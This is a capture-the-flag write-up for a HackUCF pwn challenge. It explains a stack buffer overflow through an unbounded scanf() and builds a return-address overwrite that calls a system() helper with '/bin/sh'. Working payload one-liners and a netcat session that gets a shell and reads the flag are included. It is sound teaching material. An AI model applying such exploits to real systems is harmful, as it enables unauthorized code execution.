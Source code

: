# mem_test
**Category:** Pwn

**Points:** 75

**Description:**
Author: kablaa

nc ctf.hackucf.org 9004

> **Files:** mem_test, mem_test.c, libpwnableharness32.so

## Write-up
When run, the program prints a header, then a random string, and then asks to see how good your memory is. If you enter the random string, it prints 'good job!!':
```
> nc ctf.hackucf.org 9004



------Test Your Memory!-------

YiUqxvyNCc
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> YiUqxvyNCc
good job!!


```
If you don't enter the string correctly, you get the 'sorry, your memory sucks' message:
```
nc ctf.hackucf.org 9004



------Test Your Memory!-------

zhULSZ2STl
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> hello
sorry, your memory sucks

```
C code was provided. In it there was a `handle_connection()` function, so I started there:
```c
void handle_connection(int sock) {
	int len = 10;
	char random[11];
	int i;
	static const char alphanum[] =
		"0123456789"
		"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
		"abcdefghijklmnopqrstuvwxyz";
	
	
	puts("\n\n\n------Test Your Memory!-------\n");
	
	srand(time(NULL));
	
	for(i = 0; i < len; ++i) {
		random[i] = alphanum[rand() % (sizeof(alphanum) - 1)];
	}
	
	printf("%s", random);
	mem_test(random);
}
```
This function creates the random string to test the user with, prints it out, and passes it to the `mem_test()` function, so we can take a look at that:
```c
const char* hint = "/bin/sh";

void mem_test(char* p) {
	char buff[11];
	memset(buff, '\0', sizeof(buff));
	
	printf("\nI know that mine is fine...see? : ");
	printf("%p \n", hint);
	
	puts("Let's see how good your memory is...\n");
	printf("> ");
	scanf("%s", buff);
	
	if(strncmp(buff, p, sizeof(p)) != 0) {
		puts("sorry, your memory sucks\n");
	}
	else {
		puts("good job!!\n");
	}
}
```
Note that there is a global variable `hint` that is used by the `mem_test()` function, and this contains `/bin/sh`. Interesting.

Looking at the `mem_test()` function, it creates a `char` array (`buff`) of 11 bytes and sets them all to zero. We can now see that the address printed out after the 'mine is fine' message is the address of the `hint` variable.

It then prints out the messages and uses `scanf()` to get the user input and puts it in `buff`. This means we can overflow `buff` if we need to, as `scanf()` does no checking on the length of the input. We can see that `buff` is then compared to the original random string and an appropriate message printed.

In the code, there is one more function - `win_func()`:
```c
void win_func(char* y) {
	system(y);
}
```
This function takes a string and runs whatever is in that parameter. It looks like we need to call this function and pass it the address of the `hint` variable.

The only way I can see to call this function would be to overwrite the return address for the `mem_test()` function so it calls `win_func()` instead of returning to `handle_connection()`. To see how this can be done I ran the code in IDA, initially passing in 10 A characters so we can see the stack layout:
```
> python -c "print('A'*10)" > input.txt
```
We can now use `input.txt` to get the input into IDA.

If we look at the disassembly of part of the `handle_connection()` function, we can see that `mem_test()` is called at 0x0804885b:

![Call to mem_test()](mem_test_call.png)

This means the return address we are looking for on the stack is 0x08048860. Let's look at the stack just before the `scanf()` call:

![Stack with return address](return_address.png)

We can see the return address on the stack at 0xff843a3c. Now lets step over the `scanf()` and we'll see where our input goes:

![Stack with input](input_stack.png)

The input is placed on the stack at 0xff843a28. There are our 10 A characters and the null terminator. To affect the return address, we're going to have to add another 13 A characters (to eat up the null terminator and then 12 bytes on the next line), and then put the address we want to jump to. Looking at the code, the function we want to call is at 0x08048866:

![Win_func() location](win_func_location.png)

So now we can change our `input.txt` file to try to change the return address and jump into the `win_func()` function:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08')" > input.txt

This time, we can see the original return address at 0xffa3ac4c:

![Stack with return address](return_address2.png)

Once we write our input to the stack the return address has changed to the `win_func()` location:

![Stack with win_func address](stack_with_win_func.png)

When stepping on through the code, this does get us into the `win_func()` function! Now we need to work out how to pass the address of `hint` to this function call.

The stack for a call is organised as follows:
|Stack frame |
|------------|
|Address of function to call   |
|Return address after call|
|Argument1|
|Argument2|

So we need to set up the stack like this. We can set the return address to the original return address we've overwritten, and the argument can be the address of `hint`. Therefore our stack should be:
| Stack frame | Description |
|-------------|-------------|
|AAAAAAAA...| Overflowed buffer|
|0x08048866 | Overwritten return address - now points to `win_func()`|
|0x08048860 | Original return address set as return address for our call|
|0x08048980 | Address of `hint`|

Therefore, we now set up out `input.txt` file to be:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt

> Note also: Even though I set the stack so that the old return address was set as the return address for our call, the program will still segment as the stack  won't be set up completely correctly

I tested our final payload in IDA. The final stack looked correct - after the A characters was the address of the `win_func()`, followed by the address to return to in `handle_connection()`, and then the address of the `hint` variable:

![Final stack](final_stack.png)

Lets try this on the server now:
```
> (python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004



------Test Your Memory!-------

uYPRJUjxBq
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> sorry, your memory sucks

ls
flag.txt
mem_test
cat flag.txt
flag{<flag was here>}
^C
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: (python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004

> Note also: We need to use `(python ... ; cat)` otherwise you don't get chance to interact with the shell before the program segments

This worked and gave me the flag.





